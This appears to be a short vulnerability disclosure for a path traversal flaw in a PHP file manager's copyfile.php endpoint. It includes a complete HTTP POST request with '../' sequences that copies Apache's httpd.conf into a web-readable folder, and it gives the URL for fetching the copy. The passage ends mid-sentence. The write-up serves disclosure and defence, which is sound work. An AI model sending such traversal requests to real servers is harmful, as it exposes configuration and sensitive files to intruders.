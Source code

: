 Line 37 gets the source file to be copied.
Line 38 uses the MakeUniqueFilename function to restrict copying from overwriting existing files, and the name of the copied file is identical to that of the source file.Because the values of $newPath and $path are not filtered properly, arbitrary files can be copied across directories.

Copy the apache configuration file httpd.conf to /fileman/httpd.conf as follows:
```
POST /fileman/php/copyfile.php HTTP/1.1
Host: 127.0.0.1:8003
Connection: keep-alive
Content-Length: 146
Pragma: no-cache
Cache-Control: no-cache
Accept: application/json, text/javascript, */*; q=0.01
Origin: http://127.0.0.1:8003
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.26 Safari/537.36 Core/1.63.6788.400 QQBrowser/10.3.2864.400
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
DNT: 1
Referer: http://127.0.0.1:8003/fileman/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=; roxyld=%2Ffileman%2FUploads; roxyview=list

f=%2Ffileman%2FUploads%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Ftong%2Fphpstudy%2FPHPTutorial%2FApache%2Fconf%2Fhttpd.conf&n=%2Ffileman%2FUploads%2F..
```

![2.png](./img/2.png)

Through the exploit, visit ```http://domain.com/fileman/httpd.conf``` and successfully get the content:
